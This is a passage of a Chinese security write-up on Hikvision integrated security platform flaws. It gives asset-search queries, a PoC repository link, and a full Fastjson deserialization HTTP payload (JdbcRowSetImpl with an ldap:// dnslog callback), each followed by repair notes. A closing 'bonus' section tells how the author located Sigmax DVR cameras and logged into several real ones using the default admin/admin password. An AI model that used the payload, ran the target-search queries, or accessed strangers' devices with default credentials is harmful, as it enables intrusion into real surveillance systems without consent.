

token 处的内容是：url+secretKeyIbuilding 的大写 32 位 MD5 值



批量检测  

```
hunter：web.body="/views/home/file/installPackage.rar"
github链接：https://github.com/sccmdaveli/hikvision-poc

```



这里源地址脚本或许有点问题，手工验证没有一个存在的。后面小改了一下脚本，3 个号 1500 分，硬是一个没跑出来，可能是洞出来太久都修了。



****修复方式：****  

修改拼接方式，增加白名单校验。  

**6、Fastjson 远程命令执行漏洞**

****排查范围：****

海康威视综合安防管理平台。



****排查手段：****  

漏洞 Poc：  

```http
POST /bic/ssoService/v1/applyCT HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0)
Gecko/20100101 Firefox/104.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close
Host: 127.0.0.1
Accept-Language:
zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/json
Content-Length: 196
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.dnslog.cn","autoCommit":true},"hfe4zyyzldp":"="}

```

复现这个漏洞的时候也是全网各种找案例，只可惜也是一个没找到，时间还花了一大把，只能用大佬现成的图顶一下。

拿 burp 自带的 dnslog 探测。

********

成功接收到回显。

********

****修复方式：****

目前厂商已发布升级补丁以修复漏洞。

```
补丁获取链接：
https://github.com/kekingcn/kkFileView/issues/304

```

**小彩蛋：Sigmax DVR 摄像头**

这个是搜索摄像头资产的时候无意发现的，资产主要分布在美丽国。

```
hunter：title="Sigmax DVR"

```



80% 资产都是弱口令 admin/admin，随机从 1 页中挑 3 个登录。





点点关注不迷路，每周不定时持续分享各种干货。可关注公众号回复 "进群"，也可添加管理微信拉你入群。


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
